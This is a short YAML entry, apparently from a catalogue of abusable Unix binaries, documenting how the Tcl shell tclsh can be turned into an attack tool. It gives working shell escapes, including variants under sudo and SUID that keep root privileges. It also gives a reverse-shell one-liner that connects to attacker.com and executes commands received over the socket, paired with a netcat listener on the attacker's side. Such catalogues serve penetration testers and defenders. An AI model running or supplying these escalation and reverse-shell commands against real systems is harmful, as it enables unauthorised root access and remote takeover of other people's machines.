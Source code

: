 ```yaml
---
functions:
  exec-interactive:
    - code: |
        tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
  sudo-enabled:
    - code: |
        sudo tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
  suid-enabled:
    - code: |
        ./tclsh
        exec /bin/sh -p <@stdin >@stdout 2>@stderr
  reverse-shell-non-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
---
```

